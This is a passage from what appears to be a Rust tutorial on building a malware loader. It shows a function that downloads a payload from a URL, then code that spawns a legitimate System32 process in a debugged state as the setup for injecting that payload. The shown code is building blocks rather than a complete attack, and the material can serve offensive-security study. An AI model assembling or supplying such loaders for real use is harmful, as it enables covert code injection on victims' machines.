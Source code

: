 ``` rust
    let body = reqwest::get(url).await?.bytes().await?;  
    Ok(Vec::from(body))  
}
```

As mentioned in the introduction, this job can be done with just two lines. 

### Create The Process
This step is not mandatory if we can find a debugged or suspended process to attach to, but this is uncommon. Therefore, in most cases, we will need to spawn a legitimate process and then put it into one of these states.

``` rust
fn create_debugged_process(target_process: String) -> Result<(u32, HANDLE, HANDLE), String>{  
    let mut si = STARTUPINFOA::default();  
    let mut pi = PROCESS_INFORMATION::default();  
    si.cb = std::mem::size_of::<STARTUPINFOA>() as u32;  
  
    let windir = match std::env::var("WINDIR") {  
        Ok(val) => val,  
        Err(_) => {  
            println!("WINDIR environment variable not set");  
            return Err("CreateProcessA Failed".into());  
        }  
    };  
  
    let full_process_path = format!("{}\\System32\\{}", windir, target_process);  
    println!("[i] Running: {} ...", full_process_path);  
  
    let _process = unsafe{  
        CreateProcessA(  
            None,  
            PSTR(full_process_path.as_ptr() as *mut u8),  
            None,  
            None,  
            false,  
            DEBUG_PROCESS,  
            None,  
            None,  
            &mut si,  
            &mut pi,  
        ).unwrap_or_else(|e| {  
            panic!("[!] CreateProcessA Failed With Error: {e}");  
        });  
    };  
  
    println!("[+] Process {} created", target_process);  
    if pi.dwProcessId != 0 && pi.hProcess != INVALID_HANDLE_VALUE && pi.hThread != INVALID_HANDLE_VALUE {  
        Ok((pi.dwProcessId, pi.hProcess, pi.hThread))  
    } else {  
        eprintln!("[!] CreateProcessA Failed to return Process Information");  
        return Err("CreateProcessA Failed".into());  
    }  
}
```
